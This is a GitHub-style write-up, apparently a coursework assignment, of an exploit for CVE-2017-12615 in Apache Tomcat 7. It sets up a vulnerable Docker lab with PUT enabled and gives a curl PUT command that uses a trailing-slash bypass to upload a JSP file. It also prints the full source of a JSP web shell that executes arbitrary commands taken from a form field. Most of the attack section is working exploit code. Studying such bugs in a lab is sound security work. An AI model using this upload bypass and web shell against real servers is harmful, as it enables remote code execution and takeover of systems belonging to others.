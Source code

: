 # CVE-2017-12615

## PS
- Bug Overview: When running Apache Tomcat 7.0.0 to 7.0.79 on Windows with HTTP PUTs enabled (e.g. via setting the read-only initialisation parameter of the Default to false) it was possible to upload a JSP file to the server via a specially crafted request. This JSP could then be requested and any code it contained would be executed by the server. That could lead to remote code execution on the server.
- Aim: Write a working exploit for this CVE by which you can achieve RCE on local VM/Docker.
- Install vulnerable service in a VM/Docker and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.


## Description
As a security measure, Apache Tomcat doesn't let you upload JSP files via the PUT method. But due to insufficient checks, an attacker can upload JSP files on 7.0.0 to 7.0.79 Tomcat servers that have PUT method enabled and as a result get remote code execution.


## Environment
We replicated the environment for this vulnerability in a docker container using the following Dockerfile on Windows 10 host. This will use tomcat 7.0.79, we replace the web.xml file with our modified file (setting readonly parameter to false) and start the service on port 8080.
```dockerfile
FROM tomcat:7.0.79-jre8
COPY web.xml /usr/local/tomcat/conf/
EXPOSE 8080
```

We added the following code in web.xml to enable the PUT method.
```xml
<init-param>
    <param-name>readonly</param-name>
    <param-value>false</param-value>
</init-param>
```


## Exploit
We can bypass the file extension check by appending a '/' character after the file's extension, this way it is fooled into thinking that the file just uploaded is not a JSP file. We used the following curl command to upload a JSP file on the server.

```bash
curl -X PUT http://localhost:8080/reverse_shell.jsp/ -d @- < reverse_shell.jsp
```


Ther `reverse_shell.jsp` file receives the command to be executed using HTML, so we can directly goto `http://localhost:8080/reverse_shell.jsp` and execute commands on the server :)


```js
<%@ page import="java.util.*,java.io.*"%>
<%%>
<HTML>
    <BODY>
        <H3>JSP SHELL</H3>
        <FORM METHOD="GET" NAME="myform" ACTION="">
            <INPUT TYPE="text" NAME="cmd">
            <INPUT TYPE="submit" VALUE="Execute">
        </FORM>
        <PRE>
            <%
                if (request.getParameter("cmd") != null) {
                    out.println("Command: " +
                    request.getParameter("cmd") + "<BR>");
                    Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
                    OutputStream os = p.getOutputStream();
                    InputStream in = p.getInputStream();
                    DataInputStream dis = new DataInputStream(in);
                    String disr = dis.readLine();
                    while ( disr != null ) {
                        out.println(disr);
                        disr = dis.readLine();
                    }
                }
            %>
        </PRE>
    </BODY>
</HTML>
```

Finally we have our reverse shell working and we are able to execute arbitrary shell commands from browser.

![](rev_shell.PNG)
